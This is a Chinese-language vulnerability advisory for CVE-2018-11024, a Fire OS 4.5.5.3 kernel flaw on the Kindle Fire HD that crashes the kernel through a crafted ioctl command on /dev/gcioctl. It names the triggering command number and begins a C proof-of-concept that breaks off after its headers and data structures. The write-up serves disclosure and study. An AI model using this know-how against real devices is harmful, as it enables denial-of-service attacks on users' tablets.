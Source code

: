 ```yaml
---
title: "（CVE-2018-11024）Amazon Kindle Fire HD (3rd) Fire OS kernel组件安全漏洞"
id: zhfly3376
---
```


# （CVE-2018-11024）Amazon Kindle Fire HD (3rd) Fire OS kernel组件安全漏洞

## 一、漏洞简介

Amazon Kindle Fire HD（3rd）Fire OS 4.5.5.3的内核组件中的内核模块/omap/drivers/misc/gcx/gcioctl/gcif.c允许攻击者通过设备/ dev上ioctl的参数注入特制参数/ gcioctl使用命令1077435789并导致内核崩溃。

## 二、漏洞影响

Fire OS 4.5.5.3

## 三、复现过程

### poc

```
#include<stdio.h>
#include<string.h>	  //strlen
#include<sys/socket.h>
#include<arpa/inet.h> //inet_addr
#include<unistd.h>	  //write
#include <stdlib.h>
#include <sys/stat.h>
#include <sys/mman.h>
#include <fcntl.h>
#include <stdbool.h>

// Socket boilerplate code taken from here: [http://www.binarytides.com/server-client-example-c-sockets-linux/](http://www.binarytides.com/server-client-example-c-sockets-linux/)

/*

seed, ioctl_id, num_mappings, num_blobs, dev_name_len, dev_name, map_entry_t_arr, blobs

*/

int debug = 1;

typedef struct {

int src_id;

int dst_id;

int offset;

} map_entry_t;

short tiny_vals[18] = {128, 127, 64, 63, 32, 31, 16, 15, 8, 7, 4, 3, 2, 1, 0, 256, 255, -1};

int *small_vals;

int num_small_vals;

```
